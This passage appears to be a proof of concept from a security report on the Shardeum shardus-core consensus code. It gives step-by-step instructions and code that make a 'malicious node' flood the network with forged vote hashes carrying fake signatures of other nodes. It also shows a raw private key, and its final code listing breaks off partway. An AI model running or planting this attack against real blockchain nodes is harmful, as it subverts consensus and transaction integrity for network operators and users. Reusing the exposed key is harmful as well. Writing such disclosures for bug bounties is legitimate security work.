 > PrivateKey: b92d798c878bdc6aec617419e65f43653ef5ba920e07184bfd15ed1e819209c3

Go to the `tryAppendVoteHash` function at https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/TransactionConsensus.ts#L4127 and add the following code at the very first line of the function:

```
    try {
      // If we are malicious node (9002)
      if (Self.getThisNodeInfo().externalPort == 9002) {
        console.log(`INFOSEC: VOTING ATTACK`)

        // Vote for all nodes using a broken hash and signature
        for (let i = 0; i < NodeList.byIdOrder.length; i++) {
          let appliedVoteHash = {
            txid: voteHash.txid,
            voteHash: "evilHash",
            sign: {
              owner: NodeList.byIdOrder[i].publicKey,
              sig: "evil sig"
            }
          }
          if (NodeList.byIdOrder[i].externalPort != 9002) {
            const request = appliedVoteHash as AppliedVoteHash
            // Gossip broken values
            this.p2p.tellBinary<SpreadAppliedVoteHashReq>(
              NodeList.byIdOrder,
              InternalRouteEnum.binary_spread_appliedVoteHash,
              request,
              serializeSpreadAppliedVoteHashReq,
              {}
            )
          }
          // Update our own votes with the broken values
          queueEntry.collectedVoteHashes.push(appliedVoteHash)
          queueEntry.newVotes = true
          queueEntry.lastVoteReceivedTimestamp = shardusGetTime()
        }
        return true
      }
    } catch (e) {
      console.log(`INFOSEC: tryAppendVoteHash failed: ${e.message} |||| ${e.stack}`)
    }
```

The final function should look like this:
```
  tryAppendVoteHash(queueEntry: QueueEntry, voteHash: AppliedVoteHash): boolean {

    try {
      // If we are malicious node (9002)
      if (Self.getThisNodeInfo().externalPort == 9002) {
        console.log(`INFOSEC: VOTING ATTACK`)

        // Vote for all nodes using a broken hash and signature
        for (let i = 0; i < NodeList.byIdOrder.length; i++) {
          let appliedVoteHash = {
            txid: voteHash.txid,
            voteHash: "evilHash",
            sign: {
              owner: NodeList.byIdOrder[i].publicKey,
              sig: "evil sig"
            }
          }
          if (NodeList.byIdOrder[i].externalPort != 9002) {
```